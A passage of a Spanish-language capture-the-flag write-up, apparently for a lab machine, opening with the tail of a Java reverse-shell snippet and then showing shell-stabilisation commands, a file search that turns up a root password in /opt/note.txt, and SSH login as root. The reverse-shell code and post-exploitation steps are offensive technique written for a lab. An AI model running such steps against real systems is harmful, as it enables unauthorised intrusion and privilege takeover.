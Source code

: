 ```Java
        processOutput.flush()
    }

    process.destroy()
    socket.close()

} catch (Exception e) {
    e.printStackTrace()
}
```

![[Pasted image 20250815120236.png]]

Se realiza el tratamiento de la terminal.

```Bash
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Se procede a realizar una búsqueda de archivos.

`find / -name *.txt 2>/dev/null`

![[Pasted image 20250815120732.png]]

Se visualiza el archivo `/opt/note.txt`.

![[Pasted image 20250815120845.png]]

Se encuentra la contraseña del usuario `root`.
#### SSH

Se accede al servicio **SSH** con el usuario y contraseña encontrados anteriormente.

`ssh root@10.10.215.220`

![[Pasted image 20250815121148.png]]

---